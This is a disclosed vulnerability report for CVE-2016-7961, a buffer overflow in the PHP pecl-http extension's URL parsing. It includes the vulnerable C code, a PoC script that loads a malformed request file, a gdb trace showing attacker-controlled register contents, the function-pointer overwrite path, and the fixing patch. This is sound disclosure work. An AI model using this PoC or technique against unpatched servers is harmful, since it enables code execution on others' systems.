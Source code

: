 # Buffer overflow in HTTP parse_hostinfo(), parse_userinfo() and parse_scheme()

## Report Details
- **Report ID**: 174069
- **URL**: https://hackerone.com/reports/174069
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-05T12:08:41.367Z
- **Disclosed**: 2017-05-30T15:13:49.305Z

## Reporter
- **Username**: rc0r
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Since the original report is still marked as private in the PHP bug tracker please find the copy & pasted bug report below (edited for readability and to include correct bug tracker id). See the references section for a link to the issue in the PHP bug tracker!

The maintainer already fixed the issue in the public git repo using the proposed patch included in the original report. Fixed versions 3.1.0RC1 and 2.6.0RC1 of the pecl-http extension have been released as well.

Mitre assigned **CVE-2016-7961** for this issue.

# Description

The parsing functions of the PECL HTTP extension allow overflowing a buffer with data originating from an arbitrary HTTP request. Affected are the `parse_hostinfo()`, `parse_userinfo()` and `parse_scheme()` functions in `php_http_url.c` that may get called when instantiating/initializing an HTTP message object. The problem occurs because in the main processing loop `char *ptr` may get incremented past the corresponding end pointer `char *end` used as the end marker. Thus the parser loop may continue to execute and buffer `state->buffer` may overflow.  

Relevant code snippet from `php_http_url.c:1096`:

```c
static ZEND_RESULT_CODE parse_hostinfo(struct parse_state *state, const char *ptr)
{
[...]
    if (ptr != end) do {
        switch (*ptr) {
            [...]
            case '0': case '1': case '2': case '3': case '4': case '5': case '6':
            case '7': case '8': case '9':
                /* allowed */
                if (port) {
                    state->url.port *= 10;
                    state->url.port += *ptr - '0';
                } else {
                    label = ptr;
                    state->buffer[state->offset++] = *ptr;
                }
                break;
            [...]
            default:
            [...]
                } else if (!(mb = parse_mb(state, PARSE_HOSTINFO, ptr, end, tmp, state->flags & PHP_HTTP_URL_SILENT_ERRORS))) {
                    if (!(state->flags & PHP_HTTP_URL_IGNORE_ERRORS)) {
                        return FAILURE;
                    }
                    break;
                }
                label = ptr;
                ptr += mb - 1;  // ptr increased here as in various other locations
        }
    } while (++ptr != end);     // ptr pre-incremented -> check condition may be missed!
[...]
```

# Security impact and PoC

Since this bug allows to overwrite quite large parts of memory arbitrary code execution seems very likely. In [1] you'll find a malformed HTTP request that demonstrates the issue:

```php
$ cat http_message_parse.php
/*
        http_message_parse.php
        bug73185.bin
        http://hlt99.blinkenshell.org/php/bug73185.bin
*/
<?php
    $http_msg = new http\Message(file_get_contents("bug73185.bin"), false);
?>
```

```
$ ./configure --enable-raphf --enable-propro --with-http && make
$ gdb ./sapi/cli/php
gdb> r http_message_parse.php
[...]
Fatal error: Uncaught http\Exception\BadMessageException: http\Message::__construct(): Could not parse HTTP protocol version 'HTTP/1.rdrd-vvv5:##HT
[...] // garbled output
85:#~t? HTT in http_message_parse.php on line 7

Program received signal SIGSEGV, Segmentation fault.
0x00000000006d6ef3 in _php_stream_free (stream=<optimized out>, close_options=11)
    at /home/rc0r/tmp/php-src/main/streams/streams.c:467
467			ret = stream->ops->close(stream, preserve_handle ? 0 : 1);
gdb> i r
rax            0x4142434445464748	4702394921427289928
rbx            0xb	11
rcx            0x1	1
rdx            0x0	0
rsi            0x1	1
rdi            0x7ffff42ad300	140737289835264
rbp            0x7ffff42ad300	0x7ffff42ad300
rsp            0x7fffffffb150	0x7fffffffb150
r8             0x0	0
r9             0x1	1
r10            0x3d3	979
r11            0x7ffff58ad760	140737312905056
r12            0x0	0
r13            0x1	1
r14            0x0	0
r15            0x0	0
rip            0x6d6ef3	0x6d6ef3 <_php_stream_free+307>
eflags         0x10202	[ IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
gdb> x/i $rip
=> 0x6d6ef3 <_php_stream_free+307>:	callq  *0x10(%rax)
```

The attempt to parse the supplied HTTP request fails at some point and used resources are freed by the extension. It was possible to overwrite a `php_stream` structure including its pointer to a `php_stream_ops` structure containing function pointers that are about to be called from within `_php_stream_free()` as shown above. Register `rax` contains data from the malformed HTTP request starting at offset 0x2139. 

[1] http://hlt99.blinkenshell.org/php/005-bug73185.bin

# Patch

After careful review by the project maintainers the following patch may be used to fix the reported issue.  

```c
From ec2d2e1648127b2a0bb15f10144daca59bc6f03c Mon Sep 17 00:00:00 2001
From: rc0r <hlt99@blinkenshell.org>
Date: Mon, 26 Sep 2016 21:34:29 +0200
Subject: [PATCH] Buffer overflow in parse_hostinfo() fixed

---
 src/php_http_url.c | 4 ++--
 1 file changed, 2 insertions(+), 2 deletions(-)

diff --git a/src/php_http_url.c b/src/php_http_url.c
index 2332fb5..70e4c2c 100644
--- a/src/php_http_url.c
+++ b/src/php_http_url.c
@@ -1107,7 +1107,7 @@ static ZEND_RESULT_CODE parse_hostinfo(struct parse_state *state, const char *pt
    }
 #endif
 
-	if (ptr != end) do {
+	if (ptr < end) do {
        switch (*ptr) {
        case ':':
            if (port) {
@@ -1235,7 +1235,7 @@ static ZEND_RESULT_CODE parse_hostinfo(struct parse_state *state, const char *pt
            label = ptr;
            ptr += mb - 1;
        }
-	} while (++ptr != end);
+	} while (++ptr < end);
 
    if (!state->url.host) {
        len = state->offset - len;
-- 
2.10.0
```

# Versions known to be affected

pecl-http extension versions up to and including:

* 3.1.0beta2 (PHP 7)
* 2.6.0beta2 (PHP 5)

# Timeline

2016-09-27  Initial report to PHP bug tracker (#73185)
2016-10-04  Issue fixed in git repository, CVE requested
2016-10-04  Maintainer released fixed pecl-http extensions 3.1.0RC1 and 2.6.0RC1
2016-10-05  Mitre assigned CVE-2016-7961

# References

https://bugs.php.net/bug.php?id=73185
https://github.com/m6w6/ext-http/commit/e096f45ff30a46d6a8e96da7bc6334d2ac5ab7c2

https://pecl.php.net/package/pecl_http/3.1.0RC1
https://pecl.php.net/package/pecl_http/2.6.0RC1

http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7961

## Attachments
No attachments
